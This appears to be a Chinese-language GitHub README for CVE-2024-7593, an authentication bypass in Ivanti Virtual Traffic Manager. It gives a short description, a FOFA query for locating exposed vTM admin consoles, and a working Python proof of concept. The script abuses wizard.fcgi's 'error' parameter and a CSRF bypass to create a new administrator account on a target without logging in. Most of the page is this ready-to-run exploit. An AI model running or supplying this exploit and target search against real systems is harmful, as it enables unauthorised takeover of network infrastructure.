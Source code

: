 # Ivanti-Virtual-Traffic-Manager存在身份验证绕过漏洞(CVE-2024-7593)

Ivanti Virtual Traffic Manager (vTM)多个版本存在身份验证绕过漏洞(CVE-2024-7593)，由于身份验证算法的错误实现，导致未经身份验证的远程攻击者绕过面向互联网的vTM管理控制台上的身份验证，未授权创建管理用户。

## fofa

```javascript
"Pulse Secure vTM Administration Server"
```
![image](https://github.com/user-attachments/assets/cc9ba19b-dd4a-4a53-aca9-d99516aee14c)

## poc

```python
import requests

# Set to target address
admin_portal = 'https://1.1.1.1:9090'

# User to create
new_admin_name = 'ldwkadmin'
new_admin_password = 'ldwkadmin1234'

requests.packages.urllib3.disable_warnings() 
session = requests.Session()

# Setting 'error' bypasses access control for wizard.fcgi.
# wizard.fcgi can load any section in the web interface.
params = { 'error': 1,
          'section': 'Access Management:LocalUsers' }

# Create new user request
# _form_submitted to bypass CSRF
data = {  '_form_submitted': 'form',
          'create_user': 'Create',
          'group': 'admin',
          'newusername': new_admin_name,
          'password1': new_admin_password,
          'password2': new_admin_password }

# Post request
r = session.post(admin_portal + "/apps/zxtm/wizard.fcgi", params=params, data=data, verify=False, allow_redirects=False)

# View response
content = r.content.decode('utf-8')
print(content)

if r.status_code == 200 and '<title>2<' in content:
    print("New user request sent")
    print("Login with username '" + new_admin_name + "' and password '" + new_admin_password + "'")
else:
    print("Unable to create new user")  
```

